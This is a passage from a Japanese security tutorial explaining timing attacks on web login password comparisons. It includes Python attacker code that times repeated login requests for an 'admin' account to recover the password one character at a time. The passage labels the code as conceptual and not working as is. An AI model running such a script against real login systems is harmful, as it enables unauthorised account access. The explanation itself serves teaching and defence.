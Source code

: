#### 3.1. シナリオ1：Webサーバーに対するタイミング攻撃（擬似コード例）

前述の脆弱なパスワード比較関数がWebアプリケーションのログイン機能で使われていた場合の攻撃シナリオです。攻撃者はネットワーク経由でリクエストを送信し、その応答時間（Round Trip Time）を精密に計測します。

**攻撃者の擬似コード (Python):**

```python
import requests
import time
import statistics

# 攻撃対象のURL
TARGET_URL = "http://example.com/login"
# 解析対象の文字セット
CHARSET = "abcdefghijklmnopqrstuvwxyz0123456789"
# 発見したパスワードを格納
found_password = ""
# 試行回数
NUM_TRIALS = 10

# パスワードの最大長を仮定
for i in range(16): # 最大16文字まで試行
    latency_map = {}
    
    for char in CHARSET:
        test_password = found_password + char
        latencies = []
        
        # ネットワークの揺らぎを吸収するため複数回試行して平均を取る
        for _ in range(NUM_TRIALS):
            start_time = time.perf_counter()
            # 認証リクエストを送信 (実際には現在の文字数+1で試行)
            requests.post(TARGET_URL, data={'username': 'admin', 'password': test_password.ljust(16, ' ')})
            end_time = time.perf_counter()
            latencies.append(end_time - start_time)
            
        # 平均応答時間を記録
        latency_map[char] = statistics.mean(latencies)

    # 最も応答時間が長かった文字を特定
    if not latency_map:
        break
        
    next_char = max(latency_map, key=latency_map.get)
    found_password += next_char
    
    print(f"Found: {found_password}")

    # もし特定の文字だけが突出して遅延が大きい場合、次の文字の探索に進む
    # 実際には、本当にそれで正しいかを追加の統計的検証で確認する処理が必要
```
*注：このコードは攻撃の概念を示すためのものであり、このままでは動作しません。また、実際のネットワーク環境では遅延の揺らぎが大きいため、より高度な統計処理が必要となります。*
